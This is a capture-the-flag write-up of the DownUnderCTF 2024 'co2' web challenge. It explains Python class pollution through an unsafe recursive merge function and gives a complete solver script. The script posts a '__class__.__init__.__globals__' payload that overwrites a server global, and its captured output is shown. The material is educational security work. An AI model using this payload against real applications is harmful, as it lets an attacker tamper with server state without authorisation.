 # DownUnderCTF 2024
## Web - co2 - easy
![Alt Text](./DownUnderCTF_Pic.png)

## First look
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.
Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution


## Exploit
In the CTF I did manually with burp and just intercept the request and inject it there the code, but after the CTF ends I wrote a solver script with the steps of the exploit.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

## Take the flag
And we got the flag!
```shell
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
